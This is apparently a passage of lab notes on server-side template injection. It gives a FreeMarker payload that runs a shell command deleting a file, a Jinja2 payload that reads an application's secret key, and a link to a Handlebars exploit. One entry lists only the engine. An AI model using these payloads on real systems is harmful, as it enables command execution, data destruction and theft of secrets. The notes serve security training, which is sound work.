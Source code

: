 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsubsection{3. Server-side template injection using
documentation}\label{3-server-side-template-injection-using-documentation}

\begin{quote}
Java Freemaker
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
\end{Verbatim}

\subsubsection{4. Server-side template injection in an unknown language
with a documented
exploit}\label{4-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit}

\begin{quote}
NodeJS Handlebars exploit
\url{https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection\#handlebars-nodejs}
\end{quote}

\subsubsection{5. Server-side template injection with information
disclosure via user-supplied
objects}\label{5-server-side-template-injection-with-information-disclosure-via-user-supplied-objects}

\begin{quote}
Python Jinja2
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
{{settings.SECRET_KEY}}
\end{Verbatim}

\subsubsection{6. Admin panel Password Reset Email
SSTI}\label{6-admin-panel-password-reset-email-ssti}

\begin{quote}
Jinja2
\end{quote}
\end{document}
